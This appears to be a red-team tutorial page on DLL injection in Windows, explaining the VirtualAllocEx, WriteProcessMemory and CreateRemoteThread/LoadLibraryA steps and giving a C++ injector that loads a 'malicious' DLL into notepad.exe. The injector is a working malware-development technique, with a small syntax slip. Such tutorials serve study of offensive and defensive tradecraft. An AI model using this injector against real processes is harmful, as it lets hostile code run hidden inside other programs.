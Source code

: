 ```yaml
---
title: DLL Injection
category: Maldev-Code Injection
order: 3
---
```


DLL injection is a technique used for running code within the address space of another process by forcing it to load a dynamic-link library.

It is similar concept to payload injection, but instead to inject the shellcode we are going to inject the dll module on the disk. The dll should be stored on the filesystem, the dropper can implment a download from a server or simply write it to disk manually.

In this technique we are going to create a empty buffer on the target proccess with `VirtualAllocEx` but instead of allocate the payload it will allocate the path of our dll with `WriteProcessMemory`. The reason to store the dll on a disk is because the process needs to use the system loader to initialize it properly.

With `LoadLibraryA` we can load the library on the remote process. To do that we just need to create a remote thread in the target process which calls `LoadLibraryA` with our dllpath as an argument.

If `kernel32.dll` is loaded on the loader we can use `GetProcAddress` to get `LoadLibraryA` address.

```cpp
int main(int argc, char *argv[]) {
    
    HANDLE pHandle;
    PVOID remBuf;
    PTHREAD_START_ROUTINE pLoadLibrary = NULL;
    char dllname[] = "C:\\Tools\\rtnotes\\rtnotes.dll";
    char target[] = "notepad.exe";
    int pid = 0;
    
    
    pid = FindProcess(target);
    if ( pid == 0) {
        printf("Target NOT FOUND! Exiting.\n");
        return -1;
    }

    printf("Target PID: [ %d ]\nInjecting...", pid);

    pLoadLibrary = (PTHREAD_START_ROUTINE) GetProcAddress( GetModuleHandle("Kernel32.dll"), "LoadLibraryA");

    pHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)(pid));

    if (pHandle != NULL) {
        remBuf = VirtualAllocEx(pHandle, NULL, sizeof(dllname), MEM_COMMIT, PAGE_READWRITE); 
    
        WriteProcessMemory(pHandle, remBuf, (LPVOID) dllname, sizeof(dllname), NULL);

        CreateRemoteThread(pHandle, NULL, 0, pLoadLibrary, remBuf, 0, NULL);
        printf("done!\nremBuf addr = %p\n", remBuf);

        CloseHandle(pHandle); 
    }
    else {
        printf("OpenProcess failed! Exiting.\n");
        return -1;
    }
    return 0
}
```

Here we can see how the payload is executed.

![](/rtnotes/images/dll-injection-01.png)

The `rtnotes.dll` malicious dll was successfully loaded on the remote process `notepad.exe`.

![](/rtnotes/images/dll-injection-02.png)